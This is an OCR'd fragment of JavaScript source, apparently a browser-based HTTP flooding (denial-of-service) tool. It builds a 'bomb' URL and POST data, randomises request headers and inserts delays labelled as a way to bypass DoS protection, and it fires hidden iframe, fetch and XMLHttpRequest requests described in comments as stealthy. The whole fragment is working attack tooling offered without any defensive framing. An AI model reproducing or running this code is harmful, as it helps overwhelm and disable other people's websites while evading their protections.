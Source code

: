             }
	    	return [wch, wch_url, tl, tl_url, IsUrlVaild, IsPostdataVaild]
	    }

//UrlGenerator-----------------------------------------------------------

function UrlGenerator() {
    if (wch_url==1) {
       URL = convurl_url(1);
       return [URL]
    } else {
        URL = m_stBomburl
        return [URL]
    }
}

function PostDataGenerator() {
    if (wch==1) {
        POSTDATA = convurl(1);
        return [POSTDATA]
    } else {
        POSTDATA = postdata_from_user;
        return [POSTDATA]
    }
}

function HeaderInfoGenerator() {
    if (IsRandH==1) {
        contype = Contypes[Math.floor(Math.random() * Contypes.length)];
        lang = Langs[Math.floor(Math.random() * Langs.length)];
        accept = Accepts[Math.floor(Math.random() * Accepts.length)];
    } else {}
}

function sleep(waitMsec) {
  var startMsec = new Date();
  while (new Date() - startMsec < waitMsec);
}



async function RequestGenerator(mode) {
  //BypassDos用の遅延処理
  if (IsBypassDos==1) {
        sleep(randRange(10, 300));
        //await my_sleep(randRange(10, 300))
        //console.log("IsBypassDos is " + IsBypassDos + "遅延処理" + "SLEEP");
    } else {}

    if (mode==1) {
        m_ifFrame[i].setAttribute("src", URL);
        //fech POST (こっそり)
			var req2 = new Request(URL, { method: "POST", mode: "cors", cache: "no-cache", credentials: "same-origin", headers: { "Content-Type": "application/json"}, referrerPolicy: "no-referrer", body: JSON.stringify((POSTDATA))});
			fetch(req2);
    } else if (mode==2) {
        m_ifFrame[i].setAttribute("src", URL);
        //fetch GET (こっそり)
			var req = new Request(URL, { headers: {"Content-Type": contype, "Accept-Language": lang, "Cache-Control": "no-cache", "Accept": accept, "If-Modified-Since": ifmoded } });
			fetch(req);
    } else if (mode==4) {
        //XMLHttpRequest
			xhr2.open(method2, URL, async);
	  	    xhr2.setRequestHeader("Pragma", "no-cache");
 			xhr2.setRequestHeader("Cache-Control", "no-store");
 			xhr2.setRequestHeader("If-Modified-Since", "Thu, 01 Jun 1970 00:00:00 GMT");